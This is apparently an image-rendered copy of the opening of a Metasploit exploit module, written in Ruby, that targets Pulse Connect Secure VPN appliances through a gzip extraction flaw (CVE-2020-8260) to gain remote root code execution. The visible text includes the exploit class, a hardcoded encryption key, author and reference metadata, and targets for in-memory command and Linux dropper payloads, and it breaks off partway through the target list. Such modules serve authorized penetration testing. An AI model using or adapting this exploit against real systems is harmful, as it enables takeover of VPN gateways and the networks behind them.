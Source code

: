 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::CmdStager

      ENCRYPTION_KEY = "\x7e\x95\x42\x1a\x6b\x88\x66\x41\x43\x1b\x32\xc5\x24\x42\xe2\xe4\x83\xf8\x1f\x58\xb0\xe9\xe9\xa5".b

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Pulse Secure VPN gzip RCE',
            'Description' => %q{
              The Pulse Connect Secure appliance before 9.1R9 suffers from an uncontrolled gzip extraction vulnerability
              which allows an attacker to overwrite arbitrary files, resulting in Remote Code Execution as root.
              Admin credentials are required for successful exploitation.
              Of note, MANY binaries are not in `$PATH`, but are located in `/home/bin/`.
            },
            'Author' => [
              'h00die', # msf module
              'Spencer McIntyre', # msf module
              'Richard Warren <richard.warren@nccgroup.com>', # original PoC, discovery
              'David Cash <david.cash@nccgroup.com>', # original PoC, discovery
            ],
            'References' => [
              ['URL', 'https://gist.github.com/rxwx/03a036d8982c9a3cead0c053cf334605'],
              ['URL', 'https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-rce-via-uncontrolled-gzip-extraction-cve-2020-8260/'],
              ['URL', 'https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44601'],
              ['CVE', '2020-8260']
            ],
            'DisclosureDate' => '2020-10-26',
            'License' => MSF_LICENSE,
            'Platform' => ['unix', 'linux'],
            'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
            'Privileged' => true,
            'Targets' => [
              [
                'Unix In-Memory',
                {
                  'Platform' => 'unix',
                  'Arch' => ARCH_CMD,
                  'Type' => :unix_memory,
                  'DefaultOptions' => { 'PAYLOAD' => 'cmd/unix/generic' }
                }
              ],
              [
                'Linux Dropper',
                {